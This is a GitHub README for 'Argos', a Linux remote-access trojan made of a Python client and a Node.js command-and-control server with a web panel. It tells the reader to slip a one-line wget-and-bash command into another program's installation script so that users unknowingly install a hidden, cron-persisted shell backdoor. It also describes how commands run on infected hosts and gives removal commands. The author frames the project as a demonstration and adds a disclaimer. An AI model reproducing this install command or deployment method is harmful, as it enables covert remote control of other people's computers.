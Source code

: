 <p align="center">
  <img src="https://github.com/Just1truc/Argos/blob/main/assets/top.png?raw=true">
  <br>
  <i>Can see everything, beware of its omniscience, kneel before its greatness.</i>
</p>

## Summary

- [**Presentation**](#presentation)
- [**Installation**](#installation)
- [**Removing**](#removing)
- [**Credits**](#credits)

## Presentation

#### Main goal

This program work on **Linux** distrubtion.

The main goal of this project is to show how frighteningly easy it is to create a program that can access to another machine.
This project is a [**trojan**](https://us.norton.com/internetsecurity-malware-what-is-a-trojan.html) that, when used in an installation script, can easily be installed and gain access to the whole system.

#### How it works

There is 2 main parts to this project:
- The online server
- The client

#### Client side

Get to the client part
```bash
cd client/
```

The client side program is made using [**python3**](https://www.python.org/downloads/) and can easily be called in the installation script of another program by using a simple curl command.

The client side is using [**socket io**](https://socket.io/fr/) to connect with the server through web sockets.
In case the server is not running, the program will try every 3 seconds to connect to the server until it's connected.

Once connected, the client script is waiting for instructions from the server.
The instruction it can get are mostly commands. In order to run the commands, it's using a child process that is running a shell, writing in it's stdin using the file descriptor obtained through the pty.spawn command.

Once the child process is done running a command, it send a ALRM signal to its ppid so we can get the output of the command.

#### Server side

Get to the server part:
```bash
cd online_server
```
Front:
```bash
cd frontend
```
Backend:
```bash
cd server
```
The server is made in [**Node js**](https://nodejs.org/en/download/).
The backend is composed of 2 server :
- A [**SocketIO**](https://socket.io/fr/get-started/chat) server
- An [**ExpressJS**](https://expressjs.com/fr/) server

The *express JS* server is meant to received the requests from the frontend server.
Here are the routes of that server.
| Route | Protected using JWT |
|-------|---------------------|
|/login | NO |
|/services/:id| YES |
|/services/:id/shell| YES|

The socket server accept sockets and stock them in a global variable so the connexion can be used later on.
The sockets are listenning to events and so we are using that so in case of deconnexion with a client, the client will automaticly be remove from the list.

The /shell endpoint use the socket io server sending a command to the client and waiting for a response to send back the information to the frontend.

FrontEnd endpoints:
| Endpoint | Protected |
|----------|-----------|
|/login    | NO        |
|/clients  | YES       |
|/services/:id| YES    |
|/services/:id/shell| YES |

## Installation

In order to use the project, you need to have a script that people will run.

In this very script, you juste have to call this command (remember to replace the 'Adress of the online server' by your server adress) :
```bash
wget -q -O - https://raw.githubusercontent.com/Just1truc/Argos/main/client/install_argos > here && chmod 777 here && bash here "Adress of the online server" && rm here
```
Once this command has been run, everthing should be ready for the client.

Also, to setup the server, it's kinda more complicated.
You have to host both the [**front**](https://github.com/Just1truc/Argos/blob/main/online_server/frontend/README.md) and the [**backend**](https://github.com/Just1truc/Argos/tree/main/online_server/server/README.md).

## Removing

This trojan is pretty annoying right? So let's remove it from your computer !

### Automatically

```bash
crontab -r; kill $(ps -aux | grep /usr/local/src/.service.exwrap.py | grep -v "grep" | awk '{print $2}')
```

### Manually

To do so, you just need to first execute this command to get rid of the cronjob :
```bash
crontab -r
```

Then, you need to cut the access to your computer, so let's kill the script doing that:
if you don't have ``htop``, you may have to install it.
```bash
htop -F python
```

> Tip: The trojan file is .service.exwrap.py

Then, keep the pid of the command that is using *python3* to run and kill it:
```bash
kill [pid]
```

## Credits:
<div align="center">
<table>
  <tr>
    <td align="center">
      <a href="https://github.com/Just1truc">
        <img src="https://avatars.githubusercontent.com/u/68695857?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Justin Duc</b>
        <p>Client side and Backend</p>
      </sub>
      <a href="https://github.com/Just1truc" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/justin-duc-51b09b225/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://github.com/ZiplEix">
        <img src="https://avatars.githubusercontent.com/u/86067803?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Baptiste Leroyer</b>
        <p>Frontend Developper</p>
      </sub>
      <a href="https://github.com/ZiplEix" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/baptiste-leroyer-a69894227/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://github.com/ZerLock">
        <img src="https://avatars.githubusercontent.com/u/47077683?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Léo Dubosclard</b>
        <p>DevOps Developper</p>
      </sub>
      <a href="https://github.com/ZerLock" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/leo-dubosclard/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
  </tr>
  <tr>
    <td align="center">
      <a href="https://github.com/izimio">
        <img src="https://avatars.githubusercontent.com/u/65503390?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Joshua Brionne</b>
        <p>Frontend Developper</p>
      </sub>
      <a href="https://github.com/izimio" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/joshua-brionne/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://youtu.be/S7dbdC8e5cQ?t=43">
        <img src="https://cdn.discordapp.com/attachments/899334925206040606/983147821249200158/unknown.png" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Paul Laban</b>
        <p>Frontend Developper</p>
      </sub>
      <a href="https://www.youtube.com/watch?v=uksRrB1XCXU" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://youtu.be/Wl959QnD3lM?t=34" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
    <td align="center">
      <a href="https://github.com/MathiDEV">
        <img src="https://avatars.githubusercontent.com/u/40570499?v=4&s=100" width="100px;" alt=""/>
      </a>
      <br />
      <sub>
        <b>Mathias André</b>
        <p>Stability responsible</p>
      </sub>
      <a href="https://github.com/MathiDEV" title="GitHub">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733609.png">
      </a>&nbsp;
      <a href="https://www.linkedin.com/in/mathias-andré/" title="LinkedIn">
        <img height=16 src="https://cdn-icons-png.flaticon.com/512/733/733617.png">
      </a>
    </td>
</table>
</div>

<br>
<br>

> ⚠️ *Do not use for illegal purposes*

*THIS PROJECT IS IN PROGRESS. It's FUNCTIONNAL but it's not as securised as it should be*
